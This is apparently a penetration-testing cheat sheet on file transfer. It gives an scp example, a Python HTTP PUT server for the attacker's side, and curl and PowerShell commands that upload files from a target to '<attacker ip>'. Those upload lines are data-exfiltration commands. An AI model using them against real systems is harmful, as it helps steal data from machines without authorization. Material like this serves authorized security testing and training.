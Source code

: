:arrow_forward: Download a file from the server with SSH

command 
```
scp <remote server username>@<remote server IP>:/<remote server folder>/<remote server filename> /<local folder>/<local filename>
```
e.g.

```
scp tester@192.168.10.99:/Users/tester/Desktop/123.txt /tmp/123.txt
```

:arrow_forward: Uploading a file from target server to our local HTTP server

HTTPutServer.py

```
import sys
import signal
from threading import Thread
from BaseHTTPServer import HTTPServer, BaseHTTPRequestHandler



class PUTHandler(BaseHTTPRequestHandler):
    def do_PUT(self):
        length = int(self.headers['Content-Length'])
        content = self.rfile.read(length)
        self.send_response(200)
        with open(self.path[1:], "w") as f:
            f.write(content)


def run_on(port):
    print("Starting a HTTP PUT Server on {0} port {1} (http://{0}:{1}) ...".format(sys.argv[1], port))
    server_address = (sys.argv[1], port)
    httpd = HTTPServer(server_address, PUTHandler)
    httpd.serve_forever()


if __name__ == "__main__":
    if len(sys.argv) < 3:
        print("Usage:\n\tpython {0} ip 1337".format(sys.argv[0]))
        sys.exit(1)
    ports = [int(arg) for arg in sys.argv[2:]]
    try:
        for port_number in ports:
            server = Thread(target=run_on, args=[port_number])
            server.daemon = True # Do not make us wait for you to exit
        server.start()
        signal.pause() # Wait for interrupt signal, e.g. KeyboardInterrupt
    except KeyboardInterrupt:
        print "\nPython HTTP PUT Server Stoped."
        sys.exit(1)
```

Starting server 

```shell
python HTTPutServer.py <attacker ip> <attacker port>
```

Target server uploads files

```powershell
curl --upload-file test.txt http://<attacker ip>:<attacker port>/
```

```powershell
Invoke-RestMethod -Uri http://<attacker ip>:<attacker port>/<remote file name> -Method PUT -InFile <target file>
```